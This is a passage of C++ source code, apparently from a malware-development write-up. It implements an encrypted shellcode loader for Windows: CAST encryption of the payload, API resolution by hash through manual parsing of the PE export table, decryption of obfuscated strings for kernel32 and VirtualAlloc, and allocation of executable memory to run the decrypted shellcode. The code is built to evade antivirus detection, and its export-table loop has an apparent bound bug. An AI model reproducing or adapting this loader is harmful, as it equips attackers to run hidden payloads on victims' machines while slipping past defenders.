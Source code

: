```cpp
  block[1] = left;
}

void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

DWORD calcMyHash(char* data) {
  DWORD hash = 0x23;
  for (int i = 0; i < strlen(data); i++) {
    hash += data[i] + (hash << 1);
  }
  return hash;
}

static LPVOID getAPIAddr(HMODULE h, DWORD myHash) {
  PIMAGE_DOS_HEADER img_dos_header = (PIMAGE_DOS_HEADER)h;
  PIMAGE_NT_HEADERS img_nt_header = (PIMAGE_NT_HEADERS)((LPBYTE)h + 
  img_dos_header->e_lfanew);
  PIMAGE_EXPORT_DIRECTORY img_edt = (PIMAGE_EXPORT_DIRECTORY)(
    (LPBYTE)h + img_nt_header->OptionalHeader.
    DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);
  PDWORD fAddr = (PDWORD)((LPBYTE)h + img_edt->AddressOfFunctions);
  PDWORD fNames = (PDWORD)((LPBYTE)h + img_edt->AddressOfNames);
  PWORD  fOrd = (PWORD)((LPBYTE)h + img_edt->AddressOfNameOrdinals);

  for (DWORD i = 0; i < img_edt->AddressOfFunctions; i++) {
    LPSTR pFuncName = (LPSTR)((LPBYTE)h + fNames[i]);

    if (calcMyHash(pFuncName) == myHash) {
    //   printf("successfully found! %s - %d\n", pFuncName, myHash);
      return (LPVOID)((LPBYTE)h + fAddr[fOrd[i]]);
    }
  }
  return nullptr;
}

void cast_decrypt_and_execute_shellcode(unsigned char* shellcode, int 
shellcode_len, uint32_t subkeys[ROUNDS][4]) {
  LPVOID mem_block = NULL;
  // decrypt function string
  d((char*)cva, sizeof(cva), secretKey, sizeof(secretKey));
  // allocate memory buffer for payload
  d((char*)kdll, sizeof(kdll), secretKey, sizeof(secretKey));

  wchar_t wtext[20];
  mbstowcs(wtext, kdll, strlen(kdll)+1); //plus null
  LPWSTR k_dll = wtext;

//   HMODULE kernel = GetModuleHandle((LPCSTR)kdll);
  HMODULE kernel = myGM(k_dll);
//   pva = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))GetProcAddress
// (kernel, (LPCSTR)cva);
  pva = (LPVOID(WINAPI *)(LPVOID, SIZE_T, DWORD, DWORD))myGPA(kernel, 
  (LPCSTR)cva);

  // allocate a single block for execution
  mem_block = pva(NULL, shellcode_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  if (mem_block == NULL) {
    printf("memory allocation failed\n");
```